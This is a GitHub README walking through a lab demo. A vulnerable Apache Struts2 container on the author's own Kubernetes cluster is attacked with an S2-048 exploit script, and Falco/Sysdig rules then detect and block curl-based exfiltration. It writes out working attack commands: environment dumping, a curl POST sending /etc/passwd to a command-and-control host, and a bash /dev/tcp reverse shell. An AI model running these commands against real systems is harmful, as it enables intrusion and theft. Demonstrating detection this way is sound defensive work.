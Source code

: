 # struts_poc  
all credit to https://github.com/hook-s3c/apache-struts2-PoC, all I did is add a few things, bring it to life a bit more, EKS, etc.

![image](https://user-images.githubusercontent.com/4404271/153259381-52907b2b-ab78-4699-bde6-0cf7b35393a8.png)

## There are sometimes holes.
## This is nothing more than good old Kali struts poc rev shell in a k8s cluster. Simple.  
## Scroll down for a tldr GIF :-)  

![image](https://user-images.githubusercontent.com/4404271/155650062-66a0d0e0-5091-4dd0-9eb9-cb125d21dddb.png)


`Here's a bit of a reminder to myself for how I did this:`    

git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  

#public login to us-west-2 not supported by aws, no worries it's supported in us-east-1 so let's just do it there ;-)  

aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
  
kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
struts   LoadBalancer   10.100.144.108   12345.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m

`Step 1`  

OK now we can attack, from the attacker "box" (actually just a tmux on my ubuntu box):  

cd ~/apache-struts2-PoC  
python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'env'  

...and we dump the environment from our struts box, to our attacker "box" and see it on STDOUT... not good!  

KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42
etc..  


`Step 2`  
First, on the cc server, start some simple web server (you can find it in this repo) such as: 

python3 webserver.py  

`Step 3`  

Now let us force our exploitable struts instance to reach out to our webserver like this:  

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl jumpbox.brett1.com:8080/hi_from_inside_the_container_in_our_cluster'

So that is an HTTP GET method. We can imagine, a workload needs to update or get some file, it may be permissable to let it do a GET, but we want to know when this happens.  
So, I wondered if I could modify an existing Falco rule to warn on curl GET? Yes! 
![image](https://user-images.githubusercontent.com/4404271/155773758-cf712d92-c7f1-42e9-913f-d34c5c2fd1b2.png)
![image](https://user-images.githubusercontent.com/4404271/155773836-8430f346-1858-41a6-ac30-5f589bb930da.png)


So, as you can see above, Falco allows us to get granular enough to tell the difference between a curl POST and a curl GET <Borat>very nice!</Borat>  
So, this GET shows up on our little CC web server, and logs in Sysdig Events as a warning about curl, naughty, but I'll allow it, this time!  

![image](https://user-images.githubusercontent.com/4404271/155774031-a30a2755-7851-4cbb-95b3-30c231ab38fd.png)
![image](https://user-images.githubusercontent.com/4404271/155774091-c6d9dcd4-939c-43a7-a981-0128516feace.png)

Here you can see Sysdig agent running in our EKS cluster warns on curl GET, but allows it:  
![image](https://user-images.githubusercontent.com/4404271/155774256-163a9e44-3f0f-41b4-bc9c-3b37e4ef7039.png)

`Step 4`  

OK now with our confidence sky high, through the roof, let's do a curl POST to send the passwd file to our CC server here we go:  
(But first, we must turn off our Sysdig policy to block POST or else we will never see it work)  
![image](https://user-images.githubusercontent.com/4404271/155774448-99285ef4-027f-43a8-b4bc-8712f9540372.png)

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl -d @/etc/passwd jumpbox.brett1.com:8080'

And believe me, that works! We see the passwd file appearing in our CC server.  
![image](https://user-images.githubusercontent.com/4404271/155774611-879cc683-20db-4454-93df-2dab0de3eaab.png)
![image](https://user-images.githubusercontent.com/4404271/155774632-a9f44814-7eb7-4e11-87ed-407cdc604266.png)

OK this is beyond the pale, we cannot allow this.  
So we simply toggle our curl POST policy to ON, this has the Falco rule to fire iif there is a curl POST,  
and has an action to kill the container:  
![image](https://user-images.githubusercontent.com/4404271/155774866-38990415-0101-43f1-a6ab-8090bfd2f1fb.png)

here is that Falco rule - it is identical to the one for the curl GET, just without the NOT negation:  
![image](https://user-images.githubusercontent.com/4404271/155775341-b22453cb-bb5b-4448-9f15-1d79bbe4d170.png)

And it works! The container is killed so quickly, the passwd never shows up on the CC server (I know, I tested it probably a hundred times, and I have a replica set of two apache struts containers behind my LoadBalancer )  
![image](https://user-images.githubusercontent.com/4404271/155775568-61d26d3e-4cfe-4c52-b914-afc3101079b0.png)

Here you see my first instance was selected by the LoadBalancer target group, and also, my second instance.  You can see the restarts and you can see the one instance is in error when I make this screenshot:  

![image](https://user-images.githubusercontent.com/4404271/155775818-dde27d24-5e23-4650-a3ce-d0794628db26.png)

and here you can see, nothing ever appears on my CC server, no passwd file is POSTed:  
![image](https://user-images.githubusercontent.com/4404271/155776198-0e438449-c168-4308-9fc3-38f26b9109f0.png)



`Step 5`  

So now to put the cherry on top, let's do a reverse shell:  
On our CC server let's just listen like so: nc -l 4242  

And then from our attack box let's do it:  
python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'bash -i >& /dev/tcp/52.206.9.54/4242 0>&1'

And if you like to watch animations here we are:  

![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)

![image](https://user-images.githubusercontent.com/4404271/153435925-60ccd750-ad11-4f80-ad72-e27f01d75e09.png)

![image](https://user-images.githubusercontent.com/4404271/153497163-7b424dc2-3652-4798-9200-1606fd54876f.png)

![image](https://user-images.githubusercontent.com/4404271/153490296-a07fb685-8b04-48bb-8af0-7bff11cc2c21.png)

